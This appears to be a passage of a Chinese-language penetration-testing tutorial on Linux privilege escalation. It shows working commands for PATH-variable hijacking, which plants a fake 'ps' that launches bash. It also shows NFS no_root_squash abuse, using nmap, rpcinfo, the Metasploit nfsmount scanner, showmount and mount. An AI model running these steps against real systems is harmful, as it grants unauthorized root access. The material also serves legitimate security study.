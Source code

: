 找到相应的可执行文件后，按照  [GTFOBINS](https://gtfobins.github.io/) 中的命令来进行提权

### 利用环境变量提权

本质就是某个程序调用某个可执行程序，我们便可以将我们的命令写一个跟该可执行程序同名的文件，再加入到`PATH`环境变量中，系统便会优先执行我们的文件，从而达到提权。

```bash
# 环境变量提权示例 script调用了ps
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH

cd /home/yokan/script
./shell
whoami
```

### nfs提权

利用先遣条件：`no_root_squash`选项得开启

1. 识别nfs共享，可以利用nmap工具或rpcinfo等工具

   ```bash
   nmap -sV -p111,2049 IP
   #nmap扫描nfs的常用端口111和2049
   rpcinfo -p 192.168.1.171
   #rpcinfo直接枚举nfs
   ```

2. - 检查nfs配置文件`/etc/exports`，检查开启的nsf共享目录和`no_root_squash`选项设置

   - 利用metasploit或showmount列举目标主机的可用nfs exports

     ```bash
     msf > use auxiliary/scanner/nfs/nfsmount
     msf auxiliary(nfsmount) > set rhosts IP
     msf auxiliary(nfsmount) > run
     ```

     ```bash
     showmount -e IP
     ```

3. 挂载nfs exports

   ```bash
   sudo mount -o [options] -t nfs ip_address:share directory_to_mount
   ```

   具体的一个例子

   ```bash
   root@ubuntu:/tmp# showmount -e 172.22.13.57
   Export list for 172.22.13.57:
   /home/joyce *
   root@ubuntu:/tmp# mount -t nfs 172.22.13.57:/home/joyce joyce/ -o nolock
   ```
